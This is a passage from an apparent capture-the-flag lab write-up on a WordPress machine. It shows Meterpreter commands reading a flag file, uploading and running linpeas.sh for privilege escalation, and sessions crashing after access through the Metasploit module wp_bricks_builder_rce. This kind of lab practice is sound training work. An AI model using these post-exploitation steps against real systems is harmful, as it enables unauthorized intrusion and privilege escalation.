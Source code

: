 ```jsx
100644/rw-r--r--  34385  fil   2024-04-02 07:12:03 -0400  wp-signup.php
100644/rw-r--r--  4885   fil   2024-04-02 07:12:03 -0400  wp-trackback.php
100644/rw-r--r--  3246   fil   2024-04-04 11:15:40 -0400  xmlrpc.php

```

<br/>

# Flag 1 - What is the content of the hidden .txt file in the web folder?

```jsx
meterpreter > cat 650c844110baced87e1606453b93f22a.txt
THM{fl46_650c844110baced87e1606453b93f22a}
```

<br/>

# Exploit Issues

I’m unable to drop down to a shell and don’t seem to have permissions to do much, so I’m going to need to escalate my privileges.

```jsx
meterpreter > getuid
Server username: apache
```

<br/>

Copied `linpeas.sh` to machine but sessions dies whenever I try to get a shell.

<br/>

```jsx
meterpreter > upload linpeas.sh
[*] Uploading  : /home/kali/Desktop/Scripts/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 820.40 KiB (0.0%): /home/kali/Desktop/Scripts/linpeas.sh -> linpeas.sh
[*] Completed  : /home/kali/Desktop/Scripts/linpeas.sh -> linpeas.sh

meterpreter > execute -f linpeas.sh
[*] 10.10.134.145 - Meterpreter session 5 closed.  Reason: Died

```

<br/>

Meterpreter shell keeps crashing.

```jsx
meterpreter > shell

[*] 10.10.134.145 - Meterpreter session 6 closed.  Reason: Died
[-] Send timed out. Timeout currently 15 seconds, you can configure this with sessions --interact <id> --timeout <value>
msf6 exploit(multi/http/wp_bricks_builder_rce) > exit

```
